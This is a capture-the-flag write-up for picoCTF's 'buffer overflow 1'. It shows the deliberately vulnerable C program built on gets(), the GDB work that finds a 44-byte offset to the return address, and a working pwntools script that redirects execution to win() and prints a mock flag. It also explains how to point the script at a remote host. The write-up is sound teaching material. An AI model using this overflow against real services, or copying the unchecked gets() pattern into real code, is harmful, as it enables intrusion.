 # picoCTF - Buffer Overflow 1

This is the 'buffer overflow 1' level from picoCTF. It can be found here, along with the binary source code.

Let's take a look at the code first:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

So we have the 'main' function that just basically calls 'vuln'. Inside that function, we have a `buf` variable with a size of 32 bytes, and then it calls `gets`, and stores it on this 'buf' variable. 

As we saw in the previous challenge, this functions is insecure due to the lack of size validation before saving it to a variable. 

Anyways, aftet saving out input, it will print the return address where the program will jump. 
The 'win' function seems like a promising target to jump. 

Let's run this in GDB and see what we can do. I'll put a breakpoint right after the 'gets' call. 

```
gdb ./vuln
gef➤ b *vuln+34
gef➤r
```

Here we can see where we at when hits the breakpoint, and in the next instruction, we'll inspect the stack and the return address as well. 

```
    0x804929e <vuln+001d>      call   0x8049050 <gets@plt>
 →  0x80492a3 <vuln+0022>      add    esp, 0x10
```

and here's the stack at this point:
```
gef➤  x/20wx $esp
0xffffceb0:     0xffffcec0      0x000007d4      0xf7fa0e3c      0x08049291
0xffffcec0:     0x41414141      0xf7fd9000      0x00000000      0x0804c000
0xffffced0:     0xffffcfd4      0xf7ffcb80      0xffffcf08      0x08049327
0xffffcee0:     0x0804a0a0      0x0804c000      0xffffcf08      0x0804932f
0xffffcef0:     0xffffcf30      0xf7fbe66c      0xf7fbeb10      0x000003e8
gef➤
```

We see our input starts at `0xffffcec0` because there are 4 'A' ('A' in hex is 0x41).

If we place a new breakpoint inside the 'vuln' function but at the `ret` instruction, we can see where is the program jumping. 
```
gef➤ b *vuln+66
get➤ continue
```
and we can see it's going back to '0x804932f':
```
 →  0x80492c3 <vuln+0042>      ret
   ↳   0x804932f <main+006b>      mov    eax, 0x0
       0x8049334 <main+0070>      lea    esp, [ebp-0x8]
       [...]
```
So, from the information we got from inspecting the stack, we see that address is stored at '0xffffceec'

Calulating the offset from our input: 
`0xffffceec - 0xffffcec0 = 0x2c` which is 44 bytes. 

So, 44 bytes from our input, we will start overwriting the return address. Let's input `44 * 'A' + 4 * 'B'` to see if the program attempts to jump into '0x42424242'.

```
mfumega@pwn-boy:/tmp/here$ ./vuln
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault (core dumped)
```

It worked. So, if we replace the 4 'B' with our 'win' function address, we should continue the execution at that point, and succesfully printing the flag!

Let's find that address first: 
```
gef➤  print win
$2 = {<text variable, no debug info>} 0x80491f6 <win>
```

and now let's build the exploit with pwntools, just to start familiarizing with it.
```python
#!/usr/bin/env python3
from pwn import *
p = process('./vuln')

win_address = 0x80491f6
offset = 44

payload = b'A' * offset
payload += p32(win_address)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```
Make it executable, run it and got the flag. 
```
mfumega@pwn-boy:/tmp/here$ ./do1.py
[+] Starting local process './vuln': pid 287169
[+] Receiving all data: Done (117B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 287169)
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
mock{This_is_a_mock_flag}
```

And we got the local flag. To execute the same code against a remote server, replace the line `p=process(binary_name)` with `p = remote('host', port)`. 
